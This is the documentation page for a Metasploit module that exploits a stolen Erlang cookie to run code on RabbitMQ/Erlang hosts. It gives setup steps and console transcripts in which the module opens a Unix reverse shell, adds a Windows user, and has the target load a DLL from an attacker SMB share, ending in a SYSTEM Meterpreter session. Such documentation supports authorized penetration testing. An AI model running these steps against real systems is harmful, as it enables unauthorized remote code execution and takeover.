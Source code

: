 ## Vulnerable Application

  The [Erlang Port Mapper Daemon](https://www.erlang.org/) is used to coordinate distributed erlang
  instances. Should an attacker gain access to this cookie code execution is trivial. Normally this
  cookie can be found in the home directory as ".erlang.cookie", however it varies system to system
  as well as it's configuration. As an example on a Windows 10 instance it can be found under the
  users home directory: e.g "C:\Users\<USER>\.erlang.cookie". Code execution is achieved via the
  "os:cmd('cmd')." command

## Verification Steps
  
  1. Install the Erlang Port Mapper Daemon
  2. Install RabbitMQ
  3. Start `msfconsole`
  4. Do `use exploit/multi/misc/erlang_cookie_rce`
  5. Do `set RHOST <ip>`
  6. Do `set COOKIE <cookie>`
  7. Do `set TARGET <target>`
  8. Do `set LHOST <host>`
  9. `exploit` and verify shell is opened (if on windows login)

## Scenarios

### Ubuntu 16.04.5 LTS

```
msf exploit(multi/misc/erlang_cookie_rce) > options 

Module options (exploit/multi/misc/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  W.X.Y.Z          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix


msf exploit(multi/misc/erlang_cookie_rce) > exploit

[*] Started reverse TCP double handler on W.X.Y.Z:4444 
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XinIWxzXWDO5x9EM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XinIWxzXWDO5x9EM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:46410) at 2018-12-09 14:45:47 -0600

id
uid=122(rabbitmq) gid=130(rabbitmq) groups=130(rabbitmq)
```

### Windows 10 (Build 17134)

First we want to exploit the host, as an example adding a new user. (Payload is executed over cmd.exe)

```
msf exploit(multi/misc/erlang_cookie_rce) > options 

Module options (exploit/multi/misc/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/windows/adduser):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   CUSTOM                   no        Custom group name to be used instead of default
   PASS    Wetw0rkHax0r$1   yes       The password for this user
   USER    wetw0rk          yes       The username to create
   WMIC    false            yes       Use WMIC on the target to resolve administrators group


Exploit target:

   Id  Name
   --  ----
   1   Windows


msf exploit(multi/misc/erlang_cookie_rce) > exploit

[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Exploit completed, but no session was created.
```

Once exploitation is complete the tester can authenticate. Another method that can be used is SMB as shown below.

exploit.rc ->
```
use exploit/windows/smb/smb_delivery
set SHARE MSF
set TARGET 0
exploit -j
use exploit/multi/misc/erlang_cookie_rce
set COOKIE EXAMPLE
set TARGET 1
set RHOST A.B.C.D
set PAYLOAD cmd/windows/generic
set CMD "rundll32.exe \\\\W.X.Y.Z\MSF\test.dll,0"
exploit -j
```

```
msf > resource exploit.rc
[*] Processing /root/exploit.rc for ERB directives.
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on W.X.Y.Z:4444 
[*] Started service listener on W.X.Y.Z:445 
[*] Server started.
[*] Run the following command on the target machine: rundll32.exe \\W.X.Y.Z\MSF\test.dll,0
[*] Exploit running as background job 1.
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Sending stage (179779 bytes) to A.B.C.D
[*] Meterpreter session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:51856) at 2018-12-18 14:45:02 -0600
[*] Exploit completed, but no session was created.
msf exploit(multi/misc/erlang_cookie_rce) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
